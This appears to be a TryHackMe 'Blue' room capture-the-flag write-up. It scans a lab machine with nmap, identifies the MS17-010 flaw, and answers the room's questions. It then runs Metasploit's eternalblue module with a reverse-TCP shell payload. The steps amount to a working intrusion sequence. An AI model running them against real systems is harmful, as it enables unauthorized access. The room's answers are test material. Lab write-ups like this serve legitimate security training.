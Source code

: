 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-1.png">
<strong> Room Link: </strong> <a href="https://tryhackme.com/r/room/blue"> https://tryhackme.com/r/room/blue</a>



##### Room Contents:

1. Task 1: Recon
2. Task 2: Gain Access
3. Task 3: Escalate
4. Task 4: Cracking
5. Task 5: Find Flags!






Task 1: Recon  

Q: Scan the machine.   
A: No answer needed. 

Q: How many ports are open with a port number under 1000?
A: 3

Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
A: ms17-010


```
nmap -vv -p- -T4 10.10.14.28
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-2.png">


```
nmap -sV -sC --script vuln 10.10.14.28
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-4.png">



Task 2: Gain Access

Exploit the machine and gain a foothold.

 
Start Metasploit

A: No answer needed

 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-5.png">
 
 
Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

A: exploit/windows/smb/ms17_010_eternalblue
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-6.png">


Q: Show options and set the one required value. What is the name of this value? (All caps for submission)

A: RHOSTS
 
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-7.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-8.png"> 
 
Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!

A: No answer needed

 
Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 



<img src="https://tryhackme.com/r/nisha281/badges/blue">





